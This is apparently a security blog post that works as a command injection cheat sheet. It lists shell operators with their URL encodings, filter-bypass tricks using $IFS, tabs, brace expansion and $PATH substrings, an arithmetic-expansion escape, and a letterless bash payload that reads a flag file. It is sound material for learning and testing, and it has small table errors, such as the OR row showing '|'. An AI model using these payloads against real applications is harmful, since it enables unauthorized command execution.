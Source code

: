 ```yaml
---
title: Command Injection
layout: post
date: 2025-05-05
description: "Command Injection is a type of attack where an attacker can execute arbitrary commands on the host operating system via a vulnerable application."
permalink: /theory/misc/cmi
---
```


## Command Injection Overview
Command Injection is a type of attack where an attacker can execute arbitrary commands on the host operating system via a vulnerable application. This is typically done by injecting malicious commands into input fields that are then executed by the server.

## Command Injection Cheat Sheet


### Basic Command Injection Characters

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|`                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |

A usefull command on Linux to find the interpretation of strokes of command like `CTRL+I` is `showkey -a` which will show us the ASCII code of the stroke. For example, if we want to find the ASCII code of `CTRL+I`, we can use the following command:

```bash
showkey -a

Press any keys - Ctrl-D will terminate this program

		 9 0011 0x09
m 	109 0155 0x6d
H 	72 0110 0x48
i 	105 0151 0x69
j 	106 0152 0x6a
u 	117 0165 0x75
x 	120 0170 0x78
S 	83 0123 0x53
^M 	13 0015 0x0d
^L 	12 0014 0x0c
^J 	10 0012 0x0a
^C 	 3 0003 0x03
^X 	24 0030 0x18
^Z 	26 0032 0x1a
```
### Bypassing Blacklists
 
#### Filtered Spaces

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Description**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------- |
| `Tab`                    | `\t`                    | `%09`                     | Both Linux and Windows accepts tabs to separate commands, useful for bypassing a space blacklist|
| `IFS`              | `${IFS}`                  |             | IFS is a special variable in Linux (Internal Field Separator) which is normally a space or a tab as the default separator|
| `Brace Expansion` | `{}` | `` | `{}` is a special character in Linux which is used to group commands together. It can be used to bypass a space blacklist, `{ls,-la}` would result in `ls -la` command |

> **Note:** To force a tab character on a shell, we can send `CTRL+v` and then `CTRL+I` (or simply `CTRL-v`+`TAB Key`) to insert a tab character. This is useful when we want to bypass a space blacklist.
{: .prompt-info}

### Bypassing Arithmetic Expansion

If we are inside an arithmetic expansion environment like

```bash
echo $((<INPUT>))
```

we can add spaces from within the parentheses to make the shell interpret the command as a simple command expression and not as an arithmetic expression. For example, if we want to execute the command `ls`, we can use the following command:

```bash
#Input: ls -la) ) #
```

this will be evaluated as `echo $((ls -la ) ) #))`, which will be interpreted as `echo $((ls -la) )` and will show us the output of the command `ls -la`.


### Getting Characters From Environment Variables

We can bypass some filters by using environment variables to get the characters we need. For example, if we want to get the character `:`, or `/`, we can use the environment variable `PATH` which contains a colon `:` and `/` in its value.

```bash
echo $PATH

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
We can use the `{}` operator to get the character we need. For example, if we want to get the character `:`, we can use the following command:

```bash
${PATH:16:1}
```

This will return the character `:`. We can use the same technique to get the character `/` by using the following command:

```bash
${PATH:0:1}
```

### Bash without letters
With bash we can use special characters to execute commands without using letters. For example, we can use the following command to execute the same as the command `cat`:

```bash
"$(<~/*/????.???)"
```
This command will send to contents of the file `flag.txt` (or the one matching the `?`) and return an output error saying command not found but with the contents of the file.
